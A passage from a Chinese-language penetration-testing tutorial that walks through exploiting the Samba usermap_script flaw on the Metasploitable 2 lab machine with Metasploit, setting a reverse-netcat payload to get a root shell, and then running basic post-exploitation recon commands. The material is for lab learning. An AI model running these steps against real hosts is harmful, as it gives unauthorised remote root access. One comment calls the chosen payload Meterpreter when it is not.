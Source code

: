 
#### **第三步：漏洞利用 - 发起攻击**

我们以 Metasploitable 2 中一个经典的 "Samba `usermap_script`" 漏洞为例。

**1. 搜索并选择漏洞利用模块：**
```bash
# 搜索该漏洞
search usermap_script

# 使用该漏洞利用模块
use exploit/multi/samba/usermap_script
```

**2. 查看并设置参数：**
```bash
# 查看需要设置的选项
show options
```
你会看到需要设置的参数，最重要的是：
*   `RHOSTS`： 目标机器的IP地址。
*   `RPORT`： 目标服务的端口（默认是445，这里不用改）。

**3. 设置攻击载荷 (Payload)：**
Payload 是攻击成功后你想要在目标机器上执行的操作。我们选择最强大的 **Meterpreter**。
```bash
# 查看可用的Payload
show payloads

# 选择一个兼容的 Meterpreter Payload
set PAYLOAD cmd/unix/reverse_netcat
```
*注意：因为这个漏洞比较特殊，它直接给我们一个 root shell，所以我们选择一个简单的反向 shell Payload。对于大多数 Windows 漏洞，你会选择像 `windows/meterpreter/reverse_tcp` 这样的 Payload。*

**4. 设置必要参数并发动攻击：**
```bash
# 设置目标IP
set RHOSTS 192.168.1.105

# 设置攻击者IP (LHOST)，即你的Kali Linux的IP
set LHOST 192.168.1.104

# 最后，发动攻击！
exploit
```
如果一切顺利，你会看到 `Command shell session 1 opened` 的提示，并且命令行变成了 `$` 或 `#`，这意味着你已经成功获取了目标机的一个 **Shell**！而且由于这个漏洞，你直接获得了 **root 权限** (`#`)。

---

#### **第四步：后渗透 - 深入探索与控制**

现在你已经进入了目标系统。让我们看看能做什么。

**在基础的 Shell 中：**
```bash
# 查看当前用户
whoami

# 查看系统信息
uname -a

# 查看网络配置
ifconfig

# 浏览文件系统
ls
cd /etc
```